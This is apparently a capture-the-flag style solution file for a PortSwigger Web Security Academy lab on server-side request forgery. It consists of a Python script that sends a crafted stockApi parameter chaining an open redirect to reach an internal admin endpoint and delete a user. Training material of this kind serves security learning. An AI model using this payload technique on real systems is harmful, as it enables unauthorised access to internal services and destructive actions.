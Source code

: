 # Lab: SSRF with filter bypass via open redirection vulnerability

Link to lab: https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'Host': '0ad1003603275442c30fec4800f10009.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
}

data = 'stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos'

response = requests.post(
    'https://0ad1003603275442c30fec4800f10009.web-security-academy.net/product/stock',
    headers=headers,
    data=data,
    verify=False,
)
```